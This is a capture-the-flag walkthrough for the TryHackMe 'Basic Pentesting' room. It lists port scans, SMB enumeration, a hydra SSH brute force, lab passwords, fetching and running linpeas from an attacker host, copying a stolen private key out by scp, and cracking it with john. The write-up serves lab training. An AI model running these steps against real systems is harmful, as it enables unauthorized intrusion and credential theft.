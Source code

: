 # Basic Pentesting

**Room Link:** [https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)



## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>



### HTTP port 80

```
dirb http://$VICTIM:80 /usr/share/wordlists/dirb/big.txt
```

<figure><img src="../../.gitbook/assets/image (24) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (6) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (27) (4).png" alt=""><figcaption></figcaption></figure>

## SMB port 139

**Kali**

```
nmap $VICTIM --script=smb-enum*
```

<figure><img src="../../.gitbook/assets/image (8) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (62) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient -L //$VICTIM/ -U anonymous
```

<figure><img src="../../.gitbook/assets/image (25) (4).png" alt=""><figcaption></figcaption></figure>

We found a file that has two possible usernames. In the note above it mentioned someone with J in their name has a weak password.

**Kali**

```
smbclient \\\\$VICTIM\\Anonymous -U anonymous
prompt
mget *
exit
cat staff.txt
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28) (2) (2).png" alt=""><figcaption></figcaption></figure>

### SSH port 22

**Kali**

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jan@$VICTIM
Password: armando
```



### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (6) (2) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (4) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
ls -lah /home/kay/.ssh/
```

<figure><img src="../../.gitbook/assets/image (26) (4).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

It is password protected so we need to try to get the password from john

**Kali**

<pre><code>chmod 400 id_rsa 
<strong>ssh -i id_rsa kay@$VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > pass_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pass_hash.txt
```

<figure><img src="../../.gitbook/assets/image (5) (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa kay@$VICTIM
Password: beeswax
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat pass.bak 
```

<figure><img src="../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

